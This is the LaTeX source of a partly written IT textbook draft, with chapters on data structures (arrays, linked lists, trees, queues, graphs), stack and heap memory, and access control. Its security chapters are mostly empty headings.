\documentclass[a4paper,twoside,10pt]{book}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%% PACKAGES
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\usepackage[USenglish]{babel}
\usepackage[T1]{fontenc}
\usepackage[ansinew]{inputenc}
\usepackage{lmodern}
\usepackage{graphicx}
\usepackage{rotating}
\usepackage{color}
\usepackage{amsmath}
\usepackage{amsthm}
\usepackage{amsfonts}
\usepackage{listings}
\usepackage{caption}
\usepackage{subcaption}
\usepackage{a4wide}
\usepackage{fancyhdr}
\usepackage{longtable}
\usepackage{hyperref}
\usepackage{varioref}
\usepackage{makeidx}
\usepackage{float}
\usepackage{placeins}
\usepackage{pdfpages}
\usepackage{nomencl}
\usepackage{tabularx}
\usepackage{enumerate}
\usepackage{multibib}
%\usepackage{bibtopic}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%% PREAMBLE
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\definecolor{mygreen}{rgb}{0,0.6,0}
\definecolor{mygray}{rgb}{0.5,0.5,0.5}
\definecolor{mymauve}{rgb}{0.58,0,0.82}

\lstset{
  backgroundcolor=\color{white},
  commentstyle=\color{mygreen},    % comment style
  frame=single,                    % adds a frame around the code
  keywordstyle=\color{blue},       % keyword style
  stringstyle=\color{mymauve},     % string literal style
  tabsize=3,                       % sets default tabsize to 2 spaces
  numbers=left,                    % where to put the line-numbers; possible values are (none, left, right)
  numbersep=5pt,                   % how far the line-numbers are from the code
}

\makeindex
\title{CONCEPTS | DistrICT Education}
\author{Joris Schelfaut}
\date{}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%% DOCUMENT
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\begin{document}

\maketitle

\cleardoublepage %The first chapter should start on an odd page.
\pagestyle{plain} % Now display headings: headings / fancy / plain ...

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%% PREFACE
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\rmfamily
\setcounter{page}{0}
\pagenumbering{roman}

\chapter{Foreword}\label{chapter:foreword}
\chapter*{Preface}\label{chapter:preface}

\section*{Goal}

The goal of this text is to provide some background on various topics surrounding information technology.

Information technology can be approached from a very formal, mathematical perspective, but at the same time, a great deal about information technology is highly pragmatic and is closely related to the business side of things. In this text we will mainly use an informal way to describe things. Nonetheless, we will try to reference academic resources and scientific papers if possible.

Using this text one should be able to get an idea of 


\section*{Organization}

The organization of this document is as follows:

\begin{enumerate}[I.]
	\item \textbf{\autoref{part:programming-fundamentals} Programming fundamentals} : In this part we introduce the fundamentals of computer programming such as experessions, data structures and algorithms. We also provide a more mathematical approach to reason about programs, introducing time complexity of algorithms and related complexity problems.
		\begin{enumerate}[1.]
			\item \textbf{\autoref{chapter:expressions} Expressions and control structures} : Introducing statements, conditions and loops.
			\item \textbf{\autoref{chapter:complexity} Complexity} : Introducing time complexity of statements, computability, and formal languages.
			\item \textbf{\autoref{chapter:datastructures} Data structures} : Introducing various representations of data and how these data structures affect performance.
			\item \textbf{\autoref{chapter:algorithms} Algorithms} : Taking off from data structures introduced in the previous chapter, we take a closer look at a range of algorithms and how they are applied in different contexts. We will also try to give an introduction to certain general problems and how they can be solved algorithmically.
		\end{enumerate}

%	\item \textbf{\autoref{part:programming-language-concepts} Programming language concepts} : In this part we take a closer look at the various choices for designing programming languages and how these affect the bahaviour of the code written in these languages.
%		\begin{enumerate}[]
%			\item \textbf{\autoref{chapter:data} Data} : Introduction to primitives and data types.
%			\item \textbf{\autoref{chapter:references} References} : Overview of different paradigms of how data can be stored and referenced.
%			\item \textbf{\autoref{chapter:continuations} Continuations} : Introduction to how the control state of a program can be managed.
%			\item \textbf{\autoref{chapter:encapsulation} Encapsulation} : Introduction to different ways in which the scope of variables can be handled.
%		\end{enumerate}


	\item \textbf{\autoref{part:systems-and-architectures} Systems and architectures} : In this part we describe the systems and architectures on which the software is run. First, we describe operating systems, next computer networks, and finally distributed systems operating on these networks.
		\begin{enumerate}[1.]
			\item \textbf{\autoref{chapter:operating-systems} Operating systems} : Introduction to the mechanics of operating systems.
			\item \textbf{\autoref{chapter:computer-networks} Computer networks} : Introduction to the different models and protocols used in computer networks.
			\item \textbf{\autoref{chapter:distributed-systems} Distributed systems} : Introduction to various concepts related to distributed systems.
		\end{enumerate}


	\item \textbf{\autoref{part:security} Security} : This part deals with security concepts of software and networks.
		\begin{enumerate}[1.]
			\item \textbf{\autoref{chapter:security-introduction} Introduction to security} : An introduction to some terminology regarding software security.
			\item \textbf{\autoref{chapter:low-level-security} Low-level security} : An overview of some attack and defense techniques for low-level programming languages.
			\item \textbf{\autoref{chapter:access-control} Access control} : An overview concepts used in access control and authentication.
			\item \textbf{\autoref{chapter:web-application-security} Web application security} : An overview of some attack and defense techniques for web applications.
		\end{enumerate}


	\item \textbf{\autoref{part:software-design} Software design} : This part deals with the design of software, software architecture and user interface design.
		\begin{enumerate}[1.]
			\item \textbf{\autoref{chapter:requirements-analysis} Requirement analysis} : An introduction to the basics of requirements analysis, including use cases, domain modeling, and UML.
			\item \textbf{\autoref{chapter:architectural-design} Architectural design} : Introduction on how to go from functional and non-functional requirements to a software architecture that meets these requirements.
			\item \textbf{\autoref{chapter:design-patterns} GRASP and design patterns} : Introduction to GRASP and an overview of some basic design patterns for software implementation.
			\item \textbf{\autoref{chapter:hci} Human-computer interaction} : Introduction to the field of human-computer interaction, usability and user interface design.
		\end{enumerate}
\end{enumerate}




\section*{Usage}

This text is aimed in particular at IT students so they would have some kind of summary or work of reference of most of the topics they will encounter throughout their study. Note that this document is not intended as a replacement for any of the course material used at universities or other instances of higher education.

For other readers, this document can be seen as a collection of independent topics or as a full-fledged course, teaching some of the basics on information technology. People that specialize in fields such as mathematics, physics, and economics among others, may find one or more chapters relating to those fields, that can act as a stepping stone to move on to the next level within that subject.

The list of referenced works may also be of interest to certain readers. Many of the books and articles referenced are used in academic courses.
\chapter*{Acknowledgements}\label{chapter:acknowledgements}

A significant amount of this text is based on books, papers, web sites and lectures by professionals and teaching staff. Many of the books and lecture materials were selected by professors from the Katholieke Universiteit Leuven and Katholieke Hogeschool Leuven institutes and I acknowledge their implicit contribution to this document.

\pagestyle{empty} %No headings for the first pages.
\tableofcontents %Table of contents

\setcounter{page}{0}
\pagenumbering{arabic}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%% PARTS / CHAPTERS
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\part{Programming fundamentals}\label{part:programming-fundamentals}
\chapter{Expressions and control structures}\label{chapter:expressions}
\chapter{Complexity}\label{chapter:complexity}

\section{Formal languages}

\subsection{Regular languages}


\subsection{Turing machines}



\section{Computability}



\chapter{Data structures}\label{chapter:datastructures}

\section{Describing data}

Data can be described as a collection of elements, representing a logical piece of information. A data element itself is of a specific data type which is an ordered set containing one or more attributes or fields. The size of this set is referred to as the dimensionality of the data. Different types of data will differ in the combination of their dimensionality and the type of these attributes. We distinguish between three different general kinds of attributes \cite{Shirley:2009:FCG:1628957}:
\begin{itemize}
	\item \textbf{Quantitative} : numerical data attributes on which arithmetic can be applied.
	\item \textbf{Ordered} : an enumeration that has a definite order.
	\item \textbf{Categorical} : data attributes that has no specific ordering, and is distinguished by name only.
\end{itemize}

% Collections = interfaces determining data access
% -> underlying implementation:
%		+ data representation :
% 		1. array
%			2. recursive
%		+ data access (and meta data for speed up)
%			- using algorithms
%			- algorithm determines efficiency in each scenario (read, write,...) (add scenario's to the text ~ use cases)

The collection of elements that represents our data, has a certain structure. This data structure may vary and each variation has very specific advantages and disadvantages. This makes the choice for one data structure or another a significant design choice that have a great impact on the performance of an algorithm and by the extension the computer program of which it is a part.

Data structures are data types themselves, offering a specific public programming interface with an internal implementation. Two aspects drive the implementation of a data structure:
\begin{enumerate}
	\item \textbf{Internal data representation} : The data within the data structure is stored in some way, for example an array or recursive structure.
	\item \textbf{Internal data access algorithms} : To implement the methods of the interface, possibly certain meta-data is required, e.g., start and end indices, and algorithms to access the internal data in a consistent and efficient way.
\end{enumerate}

In the next paragraphs we discuss arrays and recursive data structures.


\subsection{Arrays}

An array is an indexed sequence of elements. The first data element has the index zero, and the index of the last element is equal to the length of the sequence minus one. In many programming languages it is a primitive data type and forms the basis of many data structure implementations. An array has a fixed size and its slots can be directly accessed through their associated index. The data elements in an array are all of the same type. Figure \ref{fig:array} shows an example of an array of integers.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=0.6\columnwidth]{img/programming-fundamentals/array}
		\caption{An array of integers with length = $10$. The array has as its first element, i.e., at index $0$, the integer $45$, as last element, i.e., at index $9$, the number $38$. The array also contains two $null$ values, which are default values that don't represent a specific data element.}
		\label{fig:array}
	\end{center}
\end{figure}

A two dimensional array can be constructed as an array of arrays. If all arrays within the including array are of the same length, the resulting data structure is a matrix. This way $N$-dimensional structures can be created.

Arrays can also be thought of as vectors or points within a space. For an array of length $L$, each slot would correspond to an axis in an $L$-dimensional space.

Retrieving, adding and removing an element from an array is very efficient as this can be done directly in constant time. An important design decision though is what to do when trying to access an element out of the array bounds. In programming languages such as Java, a \texttt{ArrayOutOfBounds} exception is thrown in that case. Alternatively, doing this could just have no effect, but this might not be desirable as the programmer may want some feedback when applying such an operation.

However, inserting an element between two consecutive elements is a very expensive operation in arrays. In a worst case scenario this may result in having the move all the elements before adding the new element to the array. As a result, one thing to consider when using arrays for the implementation of a data structure, is whether or not many in-place additions will occur.


\subsection{Recursive data structures}

Recursive data structures are yet another way to structure data. In this case data elements are contained in a container that references other instances of this container, linking elements to one another. Depending on the type of container or node, we can create different kinds of recursion. We will distinguish between two types of recursive data structures:
\begin{enumerate}
	\item \textbf{Linked lists} : A linked list consists out of a sequence of nodes where each parent node has a one-to-one relationship with its child. In a doubly-linked list this relationship is bi-directional, i.e., both the child-to-parent and parent-to-child relationships exist. In a circular linked list the last and first elements in the list are connected.
	\item \textbf{Trees} : The nodes in a tree can have more than one child where the first node or root has no parent node. So apart from the root, each node has exactly one parent. In each node, the sequence of nodes along a path is branched into a number of subtrees. Depending on hwo paths are structured along the nodes, trees with different kinds of characteristics can be built.
\end{enumerate}

The general model for a node in a recursive data structure is shown in figure \ref{fig:recursive-data-node}.

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=0.3\columnwidth]{img/programming-fundamentals/node-general-model}
		\caption{A model for a node in a recursive data structure.}
		\label{fig:recursive-data-node}
	\end{center}
\end{figure}


Recursive data structures are usually dynamic, as adding, removing and inserting items can be done in constant time. The performance of finding elements in recursive data structures depends a lot on the type of query and the data structure itself, as we will see further.


\subsubsection{Linked lists}

A linked list is an ordered sequence of data elements contained in nodes. Nodes have a one-to-one parent-child relationship among them. The root node has no parent and the end node has no child. Traversing all the elements of a linked list occurs by starting at the root and each time going to the next element via the child reference of each node.

In general finding an item at a specific index requires linear time in worst case. However, by retaining certain meta-data, it is possible to add some speed-ups, of course at cost of memory usage and a performance cost to keep these additional fields up-to-date.

\begin{lstlisting}[language=java, caption=Node implementation for a linked list., label=listing:node-linked-list]
public class Node<E> {
	public E value;
	public Node next;
}
\end{lstlisting}

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=0.7\columnwidth]{img/programming-fundamentals/linked-list}
		\caption{Linked list data structure.}
		\label{fig:linked-list}
	\end{center}
\end{figure}


\paragraph{Doubly-linked list}

In a doubly linked list, each node contains a reference to its child and a reference to its parent. An advantage of doubly linked lists is that one can iterate through such a list in both directions. Updating the data structure becomes slightly more complicated as more references must be kept up-to-date.

\begin{lstlisting}[language=java, caption=Node implementation for a doubly linked list., label=listing:node-doubly-linked-list]
public class Node<E> {
	public E value;
	public Node previous;
	public Node next;
}
\end{lstlisting}

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=0.7\columnwidth]{img/programming-fundamentals/doubly-linked-list}
		\caption{Doubly linked list data structure.}
		\label{fig:doubly-linked-list}
	\end{center}
\end{figure}


\paragraph{Circular linked list}

A circular linked list is a linked list, doubly linked or not, where the last element is the parent of the first element. Traversing a circular list has the advantage that one doesn't necessarily need to start from the first node. A circular linked list still has all of the other characteristics of linked lists.



\subsubsection{Trees}

Trees can be seen as an extension of a linked list that can have more than one child. The root of the tree is the only element in the tree that has no parent element; all other elements have exactly one parent. Note that for this reason, a tree can never be circular. A node that has no children is called a leaf. The length longest path starting from the root and ending in a leaf, passing through a node at most once, is the height of the tree.

\begin{lstlisting}[language=java, caption=Node implementation for a standard tree., label=listing:node-doubly-linked-list]
public class Node<E> {
	public E value;
	public array<Node> children;
}
\end{lstlisting}

\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=0.7\columnwidth]{img/programming-fundamentals/tree}
		\caption{Tree data structure.}
		\label{fig:tree}
	\end{center}
\end{figure}


\paragraph{Binary trees}

A binary tree is a tree in which each node has at most two children.


\paragraph{Balanced trees}

In a balanced tree, all paths starting from the root and ending in a leaf node have equal length


\paragraph{Tries}

A trie is a specialized data structure in which for example letters are laid out along the paths of the tree, forming words. It allows certain algorithms to quickly find substrings within long sequences.


\subsection{Tuples}

A tuple is an ordered set of data elements. The elements are not necessarily all of the same type.



\section{Collections}

In what follows we discuss different APIs for collections. Table \ref{tab:api:collections} gives an overview of the general inspection methods for collections.

\begin{table}[H]
	\caption{General inspection methods for collections.}
	\label{tab:api:collections}
	\begin{tabular}{p{150px} | p{250px}}
		\textbf{Operation} & \textbf{Description} \\
		\hline
		size() $\rightarrow$ Integer & Returns the number of items in the collection. \\
		isEmpty() $\rightarrow$ Boolean & Returns $True$ if the number of items in the collection is zero. \\
		& \\
		\hline
	\end{tabular}
\end{table}



\subsection{Lists}

A list is an ordered sequence of data elements in which elements are allowed to occur more than once. Lists are typically mutable or dynamic, in the sense that items can be added to, replaced, and removed from it. There exist two notable variations to lists that differ in the way data is represented internally, namely array-based lists and linked lists.

where each data element is associated with an index. Table \ref{tab:api:list} gives an overview of the methods can can be invoked on a list. Note that some of the specification may change depending on certain design choices. For example, if the index is equal or greater than the length of the list, an error message could be shown. In this case the operation would simply have no effect.

\begin{table}[H]
	\caption{List API.}
	\label{tab:api:list}
	\begin{tabular}{p{150px} | p{250px}}
		\textbf{Operation} & \textbf{Description} \\
		\hline
		add($Item$) & Adds an item to the back of the list. \\
		get($index$) $\rightarrow$ $Item$ & Returns the item at the given index. \\
		replace($Item$, $index$) & Replaces the item at the given index in the list with the given item.  \\
		remove($index$) & Removes the item at the given index. \\
		\hline
	\end{tabular}
\end{table}



\subsection{Bags}

A bag is a collection that does not support the removal of items [2]. Only the adding of items and some inspection methods are generally supported. \textbf{Table} shows the bag API.

\begin{table}[H]
	\caption{Bag API.}
	\label{tab:api:bag}
	\begin{tabular}{p{150px} | p{250px}}
		\textbf{Operation} & \textbf{Description} \\
		\hline
		add($Item$) & Adds a new item to the bag. \\
		\hline
	\end{tabular}
\end{table}



\subsection{Queues}

\subsubsection{FIFO queues}

In its most common form, a queue is a data structure interface where items are added to the back and removed from the front of the internal array representation. This kind of policy is also called first-in-first-out (FIFO).

\begin{table}[H]
	\caption{Queue API.}
	\label{tab:api:queue}
	\begin{tabular}{p{150px} | p{250px}}
		\textbf{Operation} & \textbf{Description} \\
		\hline
		enqueue($Item$) & Places a new item at the end of the queue. \\
		dequeue() $\rightarrow$ $Item$ & Removes the first item from the queue and returns it. \\
		\hline
	\end{tabular}
\end{table}



\subsubsection{Priority queues}

A priority queue differs somewhat from a FIFO queue as both enqueue and dequeue method will have different effects. Each element has a priority associated with it that implies an inherent order among the elements. This may be as simple as alphabetic or numerical order, but may also involve multiple, more complex priorities. Usually this relationship among the elements is hidden from the data structure itself, and a simple compare method allows the data structure's algorithm to determine which element has priority over another element.

The semantantics of the dequeue method remain largely the same, except that the consistency within the queue has the be preserved. The enqueue method will not necessarily add a new element to the front of the queue. Instead, the elements have a priority associated with them, and the new element will be placed into the queue according to its priority with regard to the other queued elements. When the first element in the queue is removed, an algorithm has to determine which element should be the new first element. Again, depending on whether or not arrays or recursive data structures are, the algorithm will be different.



\subsection{Stacks}

A \emph{pushdown stack} is a data structure interface where items are added to and removed from the front of the internal array. This kind of policy is called \emph{last-in-first-out} (LIFO).

\begin{table}[H]
	\caption{Stack API.}
	\label{tab:api:stack}
	\begin{tabular}{p{150px} | p{250px}}
		\textbf{Operation} & \textbf{Description} \\
		\hline
		push($Item$) & Places a new item at the top of the stack. \\
		pop() $\rightarrow$ $Item$ & Removes the top item from the stack and returns it. \\
		\hline
	\end{tabular}
\end{table}



\section{Graphs}

Finally we will discuss graphs as another way to structure data. Graphs could be regarded as another recursive data type that is an extension of a tree, but instead of only allowing one parent, nodes have a many-to-many relationship among them, where edges define which nodes are connected. However, because of this additional "connector" we will discuss it here as a separate way of structuring data.

A graph consists of a set of nodes that are interconnected through a set of edges. In \textbf{table} the API for a general graph is shown. Graphs are commonly used to find path along the edges between different nodes. A path between nodes $v$ and $w$ is a an ordered list of edges where the first edge starts in $v$ and the last ends in $w$. In a fully connected graph, there exists a path between any pair of vertices. However, it may be possible that there exist more than one path between two vertices. This introduces some interesting problems, for example efficient algorithms have been developed to find the shortest path between two nodes.

\begin{table}[H]
	\caption{General graph API.}
	\label{tab:api:graph}
	\begin{tabular}{p{150px} | p{250px}}
		\textbf{Operation} & \textbf{Description} \\
		\hline
		addVertex($v$) & Adds a new vertex $v$ to the graph. \\
		removeVertex($v$) & Removes the given vertex $v$ from the graph. \\
		addEdge($v$, $w$) & Adds a new edge with end points in vertices $v$ and $w$ to the graph. \\
		removeEdge($v$, $w$) & Removes an edge with end points in vertices $v$ and $w$ from the graph. \\
		findPath($v$,$w$,$Algorithm$)  $\rightarrow$ List<$Edge$> & Returns all the edges in a path, i.e., an ordered list of edges, between vertex $v$ and vertex $w$ using a given algorithm or policy. The result will depend on the algorithm that implements this method (e.g. path flooding, shortest path, ...). If no such path exists, an empty list is returned. \\
		\hline
	\end{tabular}
\end{table}

Formally a graph $G$ is defined as a tuple ($V$,$E$) where $V$ is the set of vertices or nodes and $E$ the set of edges. Every edge $e$ in $E$ is an pair ($v$,$w$) in $V x V$.


\begin{figure}[H]
	\begin{center}
		
\includegraphics[width=0.8\columnwidth]{img/programming-fundamentals/graph}
		\caption{Graph data structure.}
		\label{fig:graph}
	\end{center}
\end{figure}


\begin{lstlisting}[language=java, caption=Vertex in a graph., label=listing:graph:vertex]
public class Vertex<E> {}
\end{lstlisting}


\begin{lstlisting}[language=java, caption=Edge in a graph., label=listing:graph:edge]
public class Edge<T> {
	public Vertex v;
	public Vertex w;
}
\end{lstlisting}


\begin{lstlisting}[language=java, caption=Graph implementation skeleton., label=listing:graph:vertex]
public class Graph {
	public Set<Vertex> vertices;
	public Set<Edge> edges;
	
	void addVertex(Vertex v) {
		vertices.add(v);
	}
	
	void removeVertex(Vertex v) {
		vertices.remove(v);
	}
	
	void addEdge(Vertex v, Vertex w) {
		edges.add(new Edge(v,w));
	}
	
	void removeEdge(Edge e) {
		edges.remove(e);
	}
	
	Bag<Edge> findPath(Vertex v, Vertex w, Algorithm) {
		return Algorithm.findPath(v,w);
	}
}
\end{lstlisting}


\subsection{Undirected graphs}

In an undirected graph the pair for edge $e$ = ($v$,$w$) is unordered, i.e., for every edge $e$ in $E$, the ordered pair ($v$,$w$) = ($w$,$v$). An important consequence of this is that when traversing the graph along a path from point A to B, you can always go in the opposite direction from B to A along the same path.

\begin{table}[H]
	\caption{Additional methods for undirected graphs.}
	\label{tab:api:graph-undirected}
	\begin{tabular}{p{150px} | p{250px}}
		\textbf{Operation} & \textbf{Description} \\
		\hline
		getEdges(v) $\rightarrow$ Bag<Edge> & Returns all the edges directly connected to a given vertex $v$. \\
		degree(v) $\rightarrow$ Bag<Edge> & Returns the number of edges directly connected to a given vertex $v$. \\
		\hline
	\end{tabular}
\end{table}



\subsection{Directed graphs}

In a directed graph $G$ = ($V$,$E$), an edge $e$ in $E$ is an ordered pair ($v$,$w$), denoting that a path exists from $v$ to $w$. However, the path in the opposite direction does not necessarily exist.







%\section{Tables}
% maps, key-value pairs, hash tables, tuples


\chapter{Algorithms}\label{chapter:algorithms}

\section{Sorting}
\section{Searching}
\section{Artificial intelligence}
\section{Data mining}
\section{Voronoi diagrams}
\section{Backward ray tracing}



%\part{Programming language concepts}\label{part:programming-language-concepts}
%\chapter{Data}\label{chapter:data}
%\chapter{References}\label{chapter:references}

\section{Implicit references}

\section{Explicit references}

%\chapter{Continuations}\label{chapter:continuations}

\section{Exceptions}

\section{Threads}
%\chapter{Encapsulation}\label{chapter:encapsulation}

\section{Scope}

\section{Modules}

\section{Classes and objects}


\part{Systems and architectures}\label{part:systems-and-architectures}
\chapter{Operating systems}\label{chapter:operating-systems}

\section{Processes}

\section{Concurrency}

\section{Scheduling}

\section{Memory}

\subsection{Stack-based memory allocation}

In stack-based memory allocation, when a function is executed, some of the function's state is pushed onto the stack. The stack is a last-in-first-out (LIFO) data structure [4].

A stack contains a set of locations that will be used for storing data. As the stack is implemented as a single block of memory, the following three addresses are required [4]:
\begin{enumerate}
	\item \textbf{Stack pointer} : Contains the address of the top of the stack;
	\item \textbf{Stack base} : Contains the address of the lowest location in the reserved memory block;
	\item \textbf{Stack limit} : Contains the address of the top of the reserved memory block;
\end{enumerate}


\textbf{Table} \ref{} lists the general methods that can be invoked on the stack. Items can be added to the top of the datastructure via a push command. Items can only be accessed by taking them one by one from the top of the stack with the pop command [4].

\begin{table}
	\caption{Method list for the stack.}
	\label{tab:api:groupcommunication}
	\begin{tabular}{p{150px} | p{250px}}
		\textbf{Operation} & \textbf{Description} \\
		\hline
		push (Item) 						& \emph{Add a new item to the top of the stack. The stack pointer will now point at the address of the new top of the stack.} \\
		pop () $\rightarrow$ Item & \emph{Take the top item from the top of the stack. The stack pointer is adjusted.} \\
		\hline
	\end{tabular}
\end{table}


The stack itself contains stack frames and a stack frame pointer. A stack frame has the following contents:
\begin{itemize}
	\item The actual parameters of the function call;
	\item The local variables of the current function call;
	\item The return address where the function should continue after return from the function;
	\item The previous stack frame pointer.
\end{itemize}



\subsection{Dynamic memory allocation}

Dynamic memory allocation or heap-based memory allocation is used to dynamically allocate memory from the heap to programs as needed. Memory is freed once the program no longer requires it [5].

Memory management is prone to external fragmentation. This occurs when certain memory parts are freed, but new programs can't fit perfectly in the freed space [4]. Another challenge for memory management are memory leaks [5].

\chapter{Computer networks}\label{chapter:computer-networks}
\chapter{Distributed systems}\label{chapter:distributed-systems}

\part{Security}\label{part:security}
\chapter{introduction}\label{chapter:introduction}
\chapter{Low-level security}\label{chapter:low-level-security}

\section{Low-level software attacks}

\subsection{Stack-based buffer overflow}

\subsection{Heap-based buffer overflow}
\subsection{Return-to-libc attacks}
\subsection{Data-only attacks}


\section{Countermeasures}

\subsection{Stack canaries}
\subsection{Non-executable data}
\subsection{Control-flow integrity}
\subsection{Layout randomization}


\chapter{Access control}\label{chapter:access-control}

\section{Lampson's model for access control}

Security can be defined as the "prevention and detection of unauthorized actions on information" [2]. Frank Piessens distinguishes between two important cases depending on whether or not the attacker has direct access to data or not [1,2]:
\begin{enumerate}
	\item \textbf{An attacker has access to the raw bits representing the information} : This introduces the need for cryptographic techniques;
	\item \textbf{There is a software layer between the attacker and the information} : Access control techniques are required;
\end{enumerate}

In this text we will look into access control techniques. To build such a software layer, Frank Piessens [1] identifies several important steps. First, a security policy determines what is allowed in the layer and what isn't. A number of important security policy models, called access control models, exist; we will look at them in more detail later. Secondly, a correct implementation is required of the policy. Any bug in the software is a vulnerability that can be potentially exploited by an attacker. This text deals mainly with the first step.

\subsection{A general access control model}

An access control model is a "class of policies with similar characteristics" [2]. \textbf{Figure} 1 shows the general access control model. Entity authentication is "the verification of the claimed identity of an entity (usually called principal) that the guard is interacting with" [2].

\subsubsection{Principal}

